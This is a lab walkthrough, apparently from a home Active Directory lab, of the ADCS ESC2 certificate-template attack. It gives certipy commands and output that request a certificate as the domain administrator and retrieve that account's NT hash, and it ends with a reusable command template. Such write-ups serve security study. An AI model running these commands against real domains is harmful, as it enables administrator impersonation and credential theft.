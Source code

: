ESC2 in ADCS involves exploiting certificate templates that either specify the Any Purpose Extended Key Usage (EKU) or do not specify any EKU, allowing certificates to be used for various purposes, including client and server authentication and code signing. If these templates also permit specifying a `subjectAltName` (SAN) in the certificate signing request, attackers can request certificates on behalf of any user, similar to ESC1. Even without SAN specification, such certificates can be used to request new certificates. Additionally, a subordinate CA certificate with no EKUs can sign new certificates with arbitrary EKUs, posing significant security risks, although these won't work for domain authentication unless trusted by the NTAuthCertificates object.

Prerequisite:

- The Enterprise CA must provide enrollment rights to low-privileged users.
-  Manager approval should be turned off.
- No authorized signatures should be necessary.
- The security descriptor of the certificate template must be excessively permissive, allowing low-privileged users to enroll for certificates.
- The certificate template should define Any Purpose Extended Key Usage or have no Extended Key Usage specified.

![[Pasted image 20241005173442.png]]

### Certificate Request

Use the `-upn` to specify the alternative subject. In this case the Administrator:

```bash
garffff@garffff:~/GOAD/adcs/esc2$ certipy req -u khal.drogo@essos.local -p 'horse' -template ESC2 -ca ESSOS-CA -upn administrator@essos.local -dc-ip 192.168.56.23
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 12
[*] Got certificate with UPN 'administrator@essos.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

### Certificate Authentication

We can retrieve the NTLMv1 hash for the targeted user:

```bash
garffff@garffff:~/GOAD/adcs/esc2$ certipy auth -pfx administrator.pfx -dc-ip 192.168.56.12
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@essos.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@essos.local': aad3b435b51404eeaad3b435b51404ee:54296a48cd30259cc88095373cec24da
```

### Summary

```bash
certipy req -u <user>@<domain> -p '<password>' -template <template> -ca <ca> -upn <target_user>@<domain -dc-ip <adcs_ip>
certipy auth -pfx <target_user>.pfx -dc-ip <dc_ip>
```
